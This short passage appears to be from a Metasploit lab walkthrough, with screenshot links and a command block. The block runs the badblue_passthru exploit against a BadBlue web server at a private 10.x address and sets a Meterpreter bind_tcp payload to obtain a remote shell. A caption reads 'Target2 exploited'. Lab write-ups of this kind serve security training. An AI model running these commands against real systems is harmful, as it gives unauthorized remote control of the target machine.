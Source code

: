 ![http://localhost:1234/](3-metasploitassets/image-20230420001255894.png)

```bash
search badblue
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.21.166
set LPORT 4433
run
```

![Target2 exploited](3-metasploitassets/image-20230420001636051.png)
